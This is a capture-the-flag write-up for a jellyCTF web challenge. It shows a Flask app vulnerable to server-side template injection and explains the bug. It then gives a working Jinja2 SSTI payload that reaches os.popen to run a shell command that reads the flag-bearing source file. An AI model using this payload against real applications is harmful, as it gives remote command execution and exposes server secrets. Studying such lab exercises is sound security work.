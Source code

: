 # bro_visited_his_site
Point count: 100pts

Difficulty: easy

Provided files: bro_visited_his_site.zip

Url: https://bro-visited-his-site.jellyc.tf/

Description: bro stored his secrets in the flask app config
# 

Upon visiting the website, it seems like we type anything in this box and it just reflects what we put in the box.

Seeing this, I immediately thought that our input might not be sanitized properly, so I took a look at the source code.

```
#!/usr/bin/env python3
from flask import Flask, request, render_template_string, send_from_directory

app = Flask(__name__)
app.config["FLAG"] = "jellyCTF{redacted}"

@app.route("/")
def index():
    return """
        <img src="/static/bro.jpg" />
        <form action="/response" method="get">
            <textarea cols="50" name="word"></textarea>
            <input type="submit" value="go">
        </form>
    """

@app.route("/response")
def response():
    word = request.args.get("word", "")

    return render_template_string(f'''
        {{% set config="friend" %}}
        {{% set self="visit" %}}
        <p>
            {word}pilled {word}maxxer
        </p>
    ''')

@app.route('/static/<path:path>')
def send_static(path):
    return send_from_directory('static', path)

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=8081, debug=True)
```

Yup! We see that in the response route, specifically in the way it uses render_template_string to render the user input, the users input is put directly into the template without proper sanitization. This makes the website vulnerable to `Server-Side Template Injection (SSTI)`

Once knowing this, I used hacktricks SSTI Jinja 2 SSTI payloads (because we know the website is running with flask) and kept trying payloads until one worked.

This one worked!

`{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("cat bros_site.py").read()}}{%endif%}{% endfor %}`

*Note: bros_site.py, as mentioned above, contains the secret in the flask config, hence why we need to read it*

Once injected into the `word` parameter, we get this:

![image](https://github.com/sa1181405/pbchocolate-private-writeups/assets/170969470/0921d7e0-7d2f-4d90-a830-4cf1e095102d)

And there it is! Our flag!

Final flag: `jellyCTF{f1agp1ll3d_t3mpl4te_1nj3ct10nmaxx3r}`

